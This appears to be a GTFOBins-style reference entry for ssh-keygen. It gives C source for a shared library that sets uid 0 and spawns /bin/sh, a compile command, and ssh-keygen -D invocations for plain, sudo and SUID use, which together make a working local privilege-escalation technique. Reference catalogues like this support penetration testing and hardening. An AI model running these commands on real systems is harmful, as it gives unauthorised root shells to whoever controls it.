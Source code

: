 ```yaml
---
description: |
  A Shared Library is loaded by the application and executed. You can create a shared library with the following code:
  ```c
  #include <unistd.h>

  void C_GetFunctionList(){
    char *argv[] = {"/bin/sh", NULL};
    setuid(0);
    execve(argv[0], argv, NULL);
  }

  int main(int argc, char const *argv[])
  {
    return 0;
  }
  ```
  Compile it with:
  ```sh
  gcc -shared -o lib.so -fPIC lib.c
  ```
  Note: You can also define a constructor function to execute code when the library is loaded. But the `C_GetFunctionList` string needs to be present.

functions:
  library-load:
    - description: |
      code: ssh-keygen -D ./lib.so
  sudo:
    - description: |
      code: sudo ssh-keygen -D ./lib.so
  suid:
    - description: |
      code: ./ssh-keygen -D ./lib.so
---
```

